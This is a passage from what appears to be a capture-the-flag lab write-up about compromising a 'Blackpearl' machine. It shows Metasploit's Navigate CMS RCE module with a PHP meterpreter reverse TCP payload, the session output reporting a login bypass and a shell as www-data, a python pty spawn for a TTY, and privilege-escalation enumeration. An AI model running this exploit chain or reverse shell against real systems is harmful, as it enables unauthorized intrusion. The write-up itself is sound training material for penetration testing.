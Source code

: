```

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.64.4     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


```

Then run it, we were able to go to the shell. It landed to meterpreter then typ shell to go to shell

```
msf6 exploit(multi/http/navigate_cms_rce) > run

[*] Started reverse TCP handler on 192.168.64.4:4444 
[+] Login bypass successful
[+] Upload successful
[*] Triggering payload...
[*] Sending stage (39927 bytes) to 192.168.64.8
[*] Meterpreter session 1 opened (192.168.64.4:4444 -> 192.168.64.8:58304) at 2024-07-10 10:39:27 -0700

meterpreter > shell
Process 774 created.
Channel 1 created.

whoami
www-data

```

However we need a tty session, we we can use the link found in https://wiki.zacheller.dev/pentest/privilege-escalation/spawning-a-tty-shell to create a shell session. I used the `python -c 'import pty; pty.spawn("/bin/bash")'` to create a tty bash session

After that I checked `sudo -l` and `history` to enumerate but we have no privilege

```
meterpreter > shell
Process 774 created.
Channel 1 created.

whoami
www-data
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@blackpearl:~/blackpearl.tcm/navigate$ 

www-data@blackpearl:~/blackpearl.tcm/navigate$ sudo -o
sudo -o
bash: sudo: command not found
www-data@blackpearl:~/blackpearl.tcm/navigate$ sudo -l
sudo -l
bash: sudo: command not found
www-data@blackpearl:~/blackpearl.tcm/navigate$ history
```